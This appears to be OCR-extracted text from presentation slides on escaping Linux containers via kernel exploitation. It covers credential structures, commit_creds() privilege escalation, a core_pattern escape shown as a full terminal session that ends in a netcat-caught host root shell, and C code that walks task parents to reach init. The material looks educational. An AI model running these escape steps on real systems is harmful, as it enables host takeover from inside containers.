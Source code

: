 task_struct
volatile long state void *stack
...lots of fields...
int pid int tgid task_struct *parent cred *cred fs_struct *fs char comm[TASK_COMM_LEN] nsproxy *nsproxy css_set *cgroups
...many more fields...

cred
...lots of fields...
kuid_t uid kuid_t gid kuid_t euid kuid_t egid
...lots of fields...
kernel_cap_t cap_inheritable kernel_cap_t cap_effective
...some more fields...
void *security user_namespace *user_ns
...many more fields...

Revised Container Security Model

What you think you can do Capabilities

What you can actually do LSM

Credentials

seccomp

Where you can do it UUsseerrNNSS ccggrroouuppss nsproxy

Textbook commit_creds()payload
Assuming a new user namespace hasn't been set, this opens up escapes similar to --privileged
Escape becomes trivial via usermode helpers ;)

core_pattern escape
user@85c050f5:/$ ./privesc root@85c050f5:/# mkdir /newproc root@85c050f5:/# mount -t proc proc /newproc root@85c050f5:/# cd /newproc/sys/kernel root@85c050f5:/# echo "|$overlay/shell.sh" > core_pattern root@85c050f5:/# sleep 5 && ./crash & root@85c050f5:/# nc -l -p 9001 bash: cannot set terminal process group (-1): Inappropriate ioctl for device bash: no job control in this shell root@ubuntu:/#

core_pattern escape
user@85c050f5:/$ ./privesc root@85c050f5:/# mkdir /newproc root@85c050f5:/# mount -t proc proc /newproc root@85c050f5:/# cd /newproc/sys/kernel root@85c050f5:/# echo "|$overlay/shell.sh" > core_pattern root@85c050f5:/# sleep 5 && ./crash & root@85c050f5:/# nc -l -p 9001 bash: cannot set terminal process group (-1): Inappropriate ioctl for device bash: no job control in this shell root@ubuntu:/#

Kernel Exploitation
But what if they do employ user namespaces?

Getting true init

task = (char *)get_task(); while (pid != 1) {
task = *(char **)(task + PARENT_OFFSET); pid = *(uint32_t *)(task + PID_OFFSET); }

PID 1

Container

Getting true init

task = (char *)get_task(); while (pid != 1) {
task = *(char **)(task + PARENT_OFFSET); pid = *(uint32_t *)(task + PID_OFFSET); }
